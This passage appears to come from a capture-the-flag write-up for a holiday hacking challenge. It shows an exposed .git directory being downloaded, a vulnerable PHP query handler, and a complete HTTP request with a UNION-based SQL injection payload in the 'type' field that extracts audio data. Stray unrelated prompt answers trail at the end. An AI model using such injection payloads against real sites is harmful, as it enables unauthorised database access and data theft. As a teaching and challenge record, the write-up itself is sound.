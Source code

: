 ```
|_  http/1.1

Nmap done: 1 IP address (1 host up) scanned in 2.82 seconds
```
I was able to download these files and clone them using ``git`` into a local directory:

```
chris@debian:~/hhc/analytics2$ wget -q -r --no-parent https://analytics.northpolewonderland.com/.git/
chris@debian:~/hhc/analytics2$ ls analytics.northpolewonderland.com/.git
branches  COMMIT_EDITMSG  config  description  HEAD  hooks  index  index.html  info  logs  objects  refs
chris@debian:~/hhc/analytics2$ cd analytics.northpolewonderland.com/
chris@debian:~/hhc/analytics2/analytics.northpolewonderland.com$ git clone .git/ files
Cloning into 'files'...
done.
chris@debian:~/hhc/analytics2/analytics.northpolewonderland.com$ cd files
chris@debian:~/hhc/analytics2/analytics.northpolewonderland.com/files$ ls
crypto.php  edit.php    getaudio.php  js          mp3.php    report.php    this_is_html.php  view.php
css         fonts       header.php    login.php   query.php  sprusage.sql  this_is_json.php
db.php      footer.php  index.php     logout.php  README.md  test          uuid.php
chris@debian:~/hhc/analytics2/analytics.northpolewonderland.com/files$
```

Having source code to an application can make it easier to identify flaws in the code. In this case, I found a potential flaw in query.php:
```
    if($type !== 'launch' && $type !== 'usage') {
      reply(400, "Type has to be either 'launch' or 'usage'!");
    }

    $query = "SELECT * ";
    $query .= "FROM `app_" . $type . "_reports` ";
    $query .= "WHERE " . join(' AND ', $where) . " ";
    $query .= "LIMIT 0, 100";
[…]
    format_sql(query($db, $query));
```

Although it will generate an error "Type has to be either launch or usage" - it still executes the query with ``format_sql(query($db,query));`` passing unfiltered input in the **$type** variable.

The following is an example of exploit code for this vulnerability:

```
POST /query.php HTTP/1.1
Host: analytics.northpolewonderland.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://analytics.northpolewonderland.com/query.php
Cookie: AUTH=82532b2136348aaa1fa7dd2243dc0dc1e10948231f339e5edd5770daf9eef18a4384f6e7bca04d86e573b965cf936548b149496263a00165b71f76884152
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 182

date=2017-01-02&type=usage_reports` WHERE udid = 'd98ea69bdd5d0a80'
UNION ALL SELECT id,username,filename,to_base64(mp3),'' FROM audio WHERE filename = "discombobulatedaudio7.mp3" #
```


  [Unknown]:  devnull
  [Unknown]:  devnull
  [Unknown]:  devnull
  [Unknown]:  devnull
  [Unknown]:  devnull
  [Unknown]:  DN
  [no]:  yes